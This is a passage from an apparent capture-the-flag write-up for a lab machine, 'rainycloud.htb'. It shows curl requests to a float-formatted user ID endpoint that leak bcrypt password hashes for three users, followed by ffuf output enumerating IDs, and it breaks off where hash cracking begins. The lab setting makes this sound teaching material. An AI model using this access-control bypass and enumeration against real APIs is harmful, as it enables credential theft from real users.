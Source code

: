 

    oxdf@hacky$ curl http://rainycloud.htb/api/user/1.0
    {"id":1,"password":"$2a$10$bit.DrTClexd4.wVpTQYb.FpxdGFNPdsVX8fjFYknhDwSxNJh.O.O","username":"jack"}



I'll explore what's going on here in [Beyond Root](#beyond-root). I'll
grab the other two:



    oxdf@hacky$ curl http://rainycloud.htb/api/user/2.0
    {"id":2,"password":"$2a$05$FESATmlY4G7zlxoXBKLxA.kYpZx8rLXb2lMjz3SInN4vbkK82na5W","username":"root"}
    oxdf@hacky$ curl http://rainycloud.htb/api/user/3.0
    {"id":3,"password":"$2b$12$WTik5.ucdomZhgsX6U/.meSgr14LcpWXsCA0KxldEw8kksUtDuAuG","username":"gary"}



I'll also confirm that no other users show up this way with `ffuf`:



    oxdf@hacky$ ffuf -w <( seq 1 1000 ) -u http://rainycloud.htb/api/user/FUZZ.0 -fs 3

            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       

           v1.5.0
    ________________________________________________

     :: Method           : GET
     :: URL              : http://rainycloud.htb/api/user/FUZZ.0
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
     :: Filter           : Response size: 3
    ________________________________________________

    1                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 96ms]
    2                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 171ms]
    3                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 203ms]
    :: Progress: [1000/1000] :: Job [1/1] :: 364 req/sec :: Duration: [0:00:03] :: Errors: 0 ::



#### Crack Hashes

I'll save the hashes into a file:

